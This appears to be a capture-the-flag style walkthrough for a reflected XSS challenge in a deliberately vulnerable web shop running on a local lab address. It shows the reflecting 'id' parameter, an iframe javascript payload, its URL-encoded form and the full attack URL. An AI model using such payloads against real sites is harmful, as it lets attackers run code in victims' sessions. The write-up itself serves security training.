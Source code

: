 ## Reflected XSS
### Challenge: Perform a reflected XSS attack with <iframe src="javascript:alert(`xss`)">

Login as user and click `Account` > `Orders & Payment` > `Track Orders` > type a search string eg. `test`

Notice that the inputs were directly reflected into the output page. The url used was `http://192.168.247.136:3000/#/track-result?id=test`. The XSS will be placed in the `id=` parameter.

To perform a reflected XSS attack url encode 
````
<iframe src="javascript:alert(`xss`)">
````

to 
```
<iframe%20src%3D"javascript:alert(%60xss%60)"> 
```

Now reflect XSS attack can be achieved by using the url `http://192.168.247.136:3000/#/track-result?id=<iframe%20src%3D"javascript:alert(%60xss%60)">`


Note: We modified the url to include a XSS attack such that any logged in user who clicks the link will execute our malicious XSS code (within the victim's session context eg. We are making the victim to execute malicious commands on our behalf)